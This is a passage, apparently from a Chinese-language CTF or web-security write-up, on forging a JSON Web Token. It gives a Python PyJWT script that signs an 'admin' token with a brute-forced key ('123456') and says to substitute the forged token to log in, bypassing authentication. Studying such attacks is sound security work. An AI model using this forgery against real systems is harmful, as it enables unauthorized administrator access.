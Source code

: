 **jwt伪造生成**：

1.利用上面爆破得到密钥：用脚本加密(当然也可能设置加密算法为 none 这样就不需要密钥了，这里是无需密钥的加密脚本)

```python
import time
import jwt
# payload
token_dict={
  "iss": "admin",
  "iat": 1610440091,
  "exp": 1610447291,
  "nbf": 1610440091,
  "sub": "admin",
  "jti": "c3e3e96488b75f4368ba8684e4cebee4"
}
# headers
headers = {
  "alg": "HS256",
  "typ": "JWT"
}
jwt_token = jwt.encode(token_dict,  # payload, 有效载体
                     key='123456',  #爆破得到的密钥放这里
                       headers=headers,  # json web token 数据结构包含两部分, payload(有效载体), headers(标头)
                       algorithm="HS256",  # 指明签名算法方式, 默认也是HS256
                       )  # python3 编码后得到 bytes, 再进行解码(指明解码的格式), 得到一个str
print(jwt_token)
```

得到伪造的密钥之后，替换登陆即可。